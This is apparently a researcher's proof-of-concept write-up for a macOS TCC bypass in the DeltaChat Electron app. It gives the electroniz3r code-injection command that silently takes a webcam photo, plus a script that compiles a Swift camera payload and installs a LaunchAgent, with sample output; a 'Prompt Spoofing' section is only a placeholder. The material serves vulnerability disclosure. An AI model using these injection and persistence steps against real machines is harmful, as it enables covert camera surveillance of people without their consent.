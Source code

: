 # Exploitation


### Automated 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Manual 

Clone the repository and then execute the automated bash script, creating the necessary files and 
```sh
bash deltachat_camera_bypass.sh
# or
chmod +x deltachat_camera_bypass.sh && ./deltachat_camera_bypass.sh
```

Example output:
```sh
kunpeeks@MacBook-Pro-van-Kun 1 % ./deltachat_camera_bypass.sh
[*] Step 1: Write Swift camera payload to /tmp/selfie_payload.swift
[*] Step 2: Compile Swift payload to /Users/kunpeeks/Desktop/selfie
[*] Step 3: Create LaunchAgent plist at /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.camera.plist
[*] Step 4: Load LaunchAgent and trigger DeltaChat
[*] Waiting 5 seconds for selfie to complete...
[*] Checking selfie result:
[+] Selfie saved at /tmp/selfie.jpg
```


### Prompt Spoofing

TODO: xxx

